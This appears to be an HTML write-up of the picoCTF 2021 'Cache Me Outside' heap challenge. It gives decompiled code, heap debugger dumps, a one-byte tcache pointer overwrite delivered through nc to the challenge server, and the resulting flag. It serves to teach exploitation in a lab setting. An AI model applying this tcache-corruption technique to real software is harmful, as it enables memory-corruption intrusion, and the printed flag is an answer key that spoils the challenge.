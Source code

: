 <title>Cache Me Outside- picoctf2021</title>

<!DOCTYPE html>
<html>

<body>
    <h1>Cache Me Outside- picoctf2021</h1>

    <h2>Challenge Description</h2>
    <p> AUTHOR: MADSTACKS

Description
While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. nc mercury.picoctf.net 8054 <a href="https://mercury.picoctf.net/static/85f5530e5e150bf7d34b46fabbb11933/heapedit">heapedit</a> <a href="https://mercury.picoctf.net/static/85f5530e5e150bf7d34b46fabbb11933/Makefile">Makefile</a> 
<a href="https://mercury.picoctf.net/static/85f5530e5e150bf7d34b46fabbb11933/libc.so.6"> libc.so.6</a>
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>


a binary file, LibC file and makefile were attached.

Running the Binary Locally
When we first try to run the binary locally, we get a segmentation fault:
<p id="code1">
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ ./heapedit
zsh: segmentation fault  ./heapedit
This is because of incompatibility between our system and the provided libc.
</p>
We can work around this by downloading the correct linker (pwninit can do this automatically):
<p id="code1">
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ ls
flag.txt  heapedit  libc.so.6

┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ pwninit
bin: ./heapedit
libc: ./libc.so.6
</p>
fetching linker
writing solve.py stub
<p id="code1">
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ ls
flag.txt  heapedit  ld-2.27.so  libc.so.6  solve.py
</p>
Now we can run the program using the following syntax:
<p id="code1">
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ LD_PREALOAD=./libc.so.6 ./ld-2.27.so ./heapedit
You may edit one byte in the program.
Address:
We can even use patchelf to patch the executable so that it runs normally:

┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ patchelf  --set-interpreter ./ld-2.27.so ./heapedit

┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ ./heapedit
You may edit one byte in the program.
Address:
</p> 
Solution
In this challenge we have a pretty artificial example of a heap exploit.

Let's start by inspecting Ghidra's decompilation output:
<p id="code1">
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined user_value;
  int user_address;
  int i;
  undefined8 *p_buf_first;
  undefined8 *p_buf;
  FILE *flag_fd;
  undefined8 *p_buf_last;
  void *local_80;
  char local_78 [32];
  char flag [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_fd = fopen("flag.txt","r");
  fgets(flag,0x40,flag_fd);
  local_78._0_8_ = 0x2073692073696874; 
  local_78._8_8_ = 0x6d6f646e61722061;
  local_78._16_8_ = 0x2e676e6972747320;
  local_78[24] = '\0';
  p_buf_first = (undefined8 *)0x0;
  i = 0;
  while (i < 7) {
    p_buf = (undefined8 *)malloc(0x80);
    if (p_buf_first == (undefined8 *)0x0) {
      p_buf_first = p_buf;
    }
    *p_buf = 0x73746172676e6f43;
    p_buf[1] = 0x662072756f592021;
    p_buf[2] = 0x203a73692067616c;
    *(undefined *)(p_buf + 3) = 0;
    strcat((char *)p_buf,flag);
    i = i + 1;
  }
  p_buf_last = (undefined8 *)malloc(0x80);
  *p_buf_last = 0x5420217972726f53;
  p_buf_last[1] = 0x276e6f7720736968;
  p_buf_last[2] = 0x7920706c65682074;
  *(undefined4 *)(p_buf_last + 3) = 0x203a756f;
  *(undefined *)((long)p_buf_last + 0x1c) = 0;
  strcat((char *)p_buf_last,local_78);
  free(p_buf);
  free(p_buf_last);
  user_address = 0;
  user_value = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&user_address);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&user_value);
  *(undefined *)((long)user_address + (long)p_buf_first) = user_value;
  local_80 = malloc(0x80);
  puts((char *)((long)local_80 + 0x10));
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
</p>
We can see that the program is allocating and freeing memory. It offers us to change one byte of memory somewhere, and using that we must print the flag.

If we dive in a bit deeper, we can see that the program:

(Allocates a buffer for the flag and reads the flag into it)
Allocates seven buffers, copies a string into them ("Congrats! Your flag is:"), concatenates the flag to each buffer, saves a pointer to the first buffer in p_buf_first and a pointer to the seventh buffer in p_buf.
Allocates another buffer, copies a string into it ("Sorry! This won't help you: this is a random string."), and saves a pointer to it in p_buf_last. I also appends another string to it.
Frees the seventh buffer, and the last buffer
Asks the user to change the value of one byte, relative to the first buffer
Allocates a new buffer and prints its contents (starting from offset 16)
We obviously need to change a value that will cause the print to print the flag.

We'll start by changing a meaningless address and see what happens. We'll choose offset 0 which is the beginning of the first buffer.
<p id="code1">
┌──(user@kali)-[/media/sf_CTFs/pico/Cache_Me_Outside/3]
└─$ ./heapedit

You may edit one byte in the program.
Address: 0
Value: 0
t help you: this is a random string.
</p>
We get part of the already-freed p_last_buffer printed out. Why is that?

The reason is an optimization of the heap manager, which after seeing that p_last_buffer was freed, puts it in a special cache for freed allocations ("tcache") in case anyone will want to allocate another buffer of the same size. This saves the heap manager some overhead, as explained nicely here. So, when we ask to allocate another 0x80 byte buffer, we get the last one that was freed.

We need to cause the heap manager to give us a different buffer instead - one that contains the flag.

Let's check the heap state by putting a breakpoint right before the first free.
<p id="code1">
gef>  heap chunks
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 a3 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602490     70 69 63 6f 43 54 46 7b 66 61 6b 65 5f 66 6c 61    picoCTF{fake_fla]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE)
    [0x00000000006034a0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
    [0x0000000000603800     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)
    [0x0000000000603890     53 6f 72 72 79 21 20 54 68 69 73 20 77 6f 6e 27    Sorry! This won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)  ←  top chunk
gef>  heap bins tcache
───────────────────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcfc40 ─────────────────────────────────────────────────────────────────────────────────────
We can see all the allocated buffers, and none of them are in the tcache.

Now lets move until after both buffers are free, and reinspect:

gef>  heap chunks
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 02 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 a3 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602490     70 69 63 6f 43 54 46 7b 66 61 6b 65 5f 66 6c 61    picoCTF{fake_fla]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE)
    [0x00000000006034a0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
    [0x0000000000603800     00 00 00 00 00 00 00 00 21 20 59 6f 75 72 20 66    ........! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)
    [0x0000000000603890     00 38 60 00 00 00 00 00 68 69 73 20 77 6f 6e 27    .8`.....his won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)  ←  top chunk
gef>  heap bins tcache
───────────────────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcfc40 ─────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=7, size=0x90] count=2  ←  Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
</p>
We can see that the tcache contains both freed chunks, and that the first chunk in its linked list is the one that says "This won't help you" - the one that we get back when we perform the final malloc.

Now we need to find whoever is pointing to that buffer address, so that we can change it. We search for 0x603890 in the memory:
<p id="code1">
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffe240 - 0x7fffffffe24c  →   "\x90\x38\x60[...]"
We find two results. We probably need the one on the heap (0x602088). We just need to calculate it's relative offset from p_buf_first, which is the address that the program uses as the base offset for the value change.

gef>  p/d 0x602088 - 0x6034a0
$6 = -5144
</p>
We'll change the value at offset -5144 to 0x0 in order to point to somewhere within the previous allocation:

 
       
    <pre>
                                                                                                                                                           
┌──(kali㉿kali)-[~/…/2024/practice/picoctf/CacheMeOutside]
└─$ { echo "-5144"; printf "\x00";} | nc mercury.picoctf.net 8054 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{5c9838eff837a883a30c38001280f07d}

</pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{5c9838eff837a883a30c38001280f07d}
</p>

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for  tcache attack with c and heap/binary exploitation </p>
</body>
</html>


